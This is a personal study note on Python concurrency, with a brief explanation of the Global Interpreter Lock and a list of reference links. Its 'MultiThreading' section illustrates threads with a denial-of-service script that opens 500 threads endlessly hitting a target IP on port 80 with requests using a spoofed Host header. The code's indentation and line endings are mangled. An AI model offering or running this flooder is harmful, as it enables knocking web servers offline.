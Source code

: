 # Concurrency

Created: 2018-05-21 13:44:24 +0500

Modified: 2022-05-13 15:19:51 +0500

---

## Global Interpreter Lock (GIL)

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.

This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.

Solution -
-   Run multiple Python instances

## References

<https://wiki.python.org/moin/GlobalInterpreterLock>

<https://pybay.com/site_media/slides/raymond2017-keynote/index.html>

[Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)

<https://realpython.com/python-concurrency

<https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python>

<https://www.tutorialspoint.com/concurrency_in_python/index.htm>

[**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)

[Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++

## MultiThreading

import threading

import socket

target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'

def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()

for i in range(500):

thread = threading.Thread(target=attack)

thread.start()

<https://bovage.hashnode.dev/what-exactly-is-multithreading>

